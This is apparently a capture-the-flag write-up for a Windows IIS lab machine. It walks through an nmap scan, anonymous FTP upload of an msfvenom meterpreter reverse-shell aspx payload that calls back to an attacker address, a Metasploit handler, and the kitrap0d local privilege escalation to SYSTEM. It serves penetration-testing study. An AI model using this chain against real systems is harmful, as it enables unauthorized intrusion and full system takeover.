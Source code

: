 ![devel](https://user-images.githubusercontent.com/66635295/176747179-515a7195-1782-4254-a173-23b18a86530a.png)

**RECON**
---
**IIS Server (Windows)**

![recon](https://user-images.githubusercontent.com/66635295/176748219-b064f388-d683-4c33-bb29-52c20d8961c2.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.5</pre>
-allports -version -Aggressive
Port 21 allows for anonymous FTP Login

![nmap](https://user-images.githubusercontent.com/66635295/176748164-8d9bc8c3-02b3-4001-9ead-c9a2e7b90d0e.png)

**ENUMERATION**
---
**FTP Login** 
<pre>User: anonymous</pre>
<pre>Pass: anonymous</pre>
The connection allows files to be uploaded

![ftp](https://user-images.githubusercontent.com/66635295/176749228-6da8577b-6f75-41f9-a2a1-9ec36a6cc287.png)

**Msfvenom Payload**
<pre> -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex aspx </pre>
![msf](https://user-images.githubusercontent.com/66635295/176749731-c01f10d3-5894-4363-ab9c-08b91a0c0d61.png)

**Metasploit Listner**
<pre>use exploit/multi/handler</pre>
<pre>set payload windows/meterpreter/reverse_tcp</pre>
<pre>set LHOST 10.10.14.9</pre>
![msf consoel](https://user-images.githubusercontent.com/66635295/176750030-1de89e38-2ce4-46b8-9934-5bf80018e2b5.png)

FTP Upload
<pre>binary</pre>
Binary is more reliable than ASCII

![binary](https://user-images.githubusercontent.com/66635295/176751701-f44d6a90-93e3-4937-ab12-c4d92f0137e0.png)

<pre>put ex.aspx</pre>
Uploads the file to 10.10.10.5/ex.aspx

![ex](https://user-images.githubusercontent.com/66635295/176751874-9fdd0d59-5380-40a9-b910-e72ebe2600ac.png)

**PRIVILEGE ESCALATION**
---
**Meterpreter session**
<pre>getuid</pre>
Accessing the webpage provides a session to the application server  

![succ](https://user-images.githubusercontent.com/66635295/176753250-c97e1bdb-8d68-4274-8b61-4232a3343fca.png)

**Exploit suggestor**
<pre>backround</pre>
<pre>use post/multi/recon/local_exploit_suggester</pre>
<pre>set session 1</pre>
<pre>run</pre>
![sugg](https://user-images.githubusercontent.com/66635295/176753936-0f153344-9e85-4c34-a1d5-0e5b7cf8a6f9.png)

**Exploit list**
13 possible exploits found
![exploit](https://user-images.githubusercontent.com/66635295/176754492-af9345d4-e291-4828-aba1-9ff9cbf18696.png)

Exploit
<pre>use exploit windows/local/ms10_015_kitrap0d</pre>
<pre>set options</pre>
<pre>run</pre>
Creates a new session with SYSTEM privileges
![shelld](https://user-images.githubusercontent.com/66635295/176754686-000b763f-7ae4-43ab-8bcd-01692a5a11cc.png)
![swag](https://user-images.githubusercontent.com/66635295/176754750-d8f63b76-aed9-4088-b88e-ea164f55d797.png)

**Root shell**
<pre>shell</pre>
![shellll](https://user-images.githubusercontent.com/66635295/176754848-78819fce-4e69-40b0-9bb1-0dd217271dd8.png)
![flags](https://user-images.githubusercontent.com/66635295/176754936-eedc3dbf-0a4a-4f8a-8e92-c9c973ec486d.png)
